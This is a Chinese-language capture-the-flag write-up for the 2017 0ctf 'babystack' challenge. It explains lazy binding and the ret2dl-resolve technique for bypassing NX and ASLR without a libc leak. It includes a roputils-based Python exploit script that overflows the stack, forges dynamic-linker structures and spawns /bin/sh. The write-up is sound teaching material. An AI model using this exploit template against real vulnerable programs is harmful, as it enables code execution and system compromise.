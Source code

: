 ```yaml
---
title: 2017 0ctf babystack
date: 2018-7-27 08:37:40
tags: [CTF, PWN]
categories: PWN练习
---
```

# babystack WP

​	拿到题目扔ida一看发现是一道栈溢出，但开启了nx保护，而程序没有能泄露地址的函数，所以无法利用rop，想了很久。后来查了才知道这题要用return2dl-resolve来做。

<!--more-->

​	return2dl-resolve可以用来绕过aslr和nx，但是由于这种利用相对比较高级，利用起来比较难理解，所以一般情况下是不用这种利用的，比如如果是栈溢出但是题目给了你libc或者有leak函数给你的话，你就可以用rop，没有必要使用ret2dl-resolve，但是如果题目没有给你libc，而且程序中不能leak的话，碰到这种死局一般就要想到要用到ret2dl-resolve。这里说到ret2dl-resolve就不能不介绍一下linux下对可执行程序使用的延迟绑定技术了。
	一个动态链接的程序，如果在链接的时候将所有函数都进行解析，那么链接过程花费的时间肯定就长，针对这个缺点，动态链接器只对程序中调用到的libc库函数进行解析定位，那些没有用到的就不用去解析，这样就能提高链接效率，提高程序启动速度了。
	一个elf可执行程序，当调用一个函数的时候会根据对应函数got表中的地址调用相应的函数。比如调用plt表中的函数首先会取出对应函数got表中的值，然后做一个跳转，但如果是第一次调用该函数，那么got表中的值是指向plt第二句的，plt的第二句会压入一个偏移，表示该函数在got表中的表项。之后程序会跳到got表起始地址+8处，这里保存着解析函数dl_runtime_resolve，前面会把link_map以及reloc_arg压栈，这样就相当于是执行了_dl_runtime_resolve(link_map,reloc_arg)，这个函数会根据link_map地址和偏移将libc真实地址写入到对应函数got表中。之后调用函数的话就可以直接调用got中保存的地址，不需要plt再去查找并绑定了。

利用方式：
控制EIP为PLT[0]的地址，只需传递一个index_arg参数
控制index_arg的大小，使reloc的位置落在可控地址内
伪造reloc的内容，使sym落在可控地址内
伪造sym的内容，使name落在可控地址内
伪造name为任意库函数，如system 因为它查找是通过辨识函数字符串的

利用可以说是很复杂了，但是格式基本差不多，github上找到利用脚本，需要roputils扩展。
利用脚本：

```
from roputils import *

fpath = sys.argv[1]

offset = int(sys.argv[2])

rop = ROP(fpath)

addr_bss = rop.section('.bss')

buf = rop.retfill(offset)

buf += rop.call('read', 0, addr_bss, 100)

buf += rop.dl_resolve_call(addr_bss+20, addr_bss)

p = Proc(rop.fpath)

p.write(p32(len(buf)) + buf)

print "[+] read: %r" % p.read(len(buf))

buf = rop.string('/bin/sh')

buf += rop.fill(20, buf)

buf += rop.dl_resolve_data(addr_bss+20, 'system')

buf += rop.fill(100, buf)

p.write(buf)

p.interact(0)


```



这里贴上觉得不错的资料：

```
https://blog.csdn.net/weixin_40850881/article/details/80211762

http://www.cnblogs.com/Ox9A82/p/5487275.html

https://zhuanlan.zhihu.com/p/23255727

```

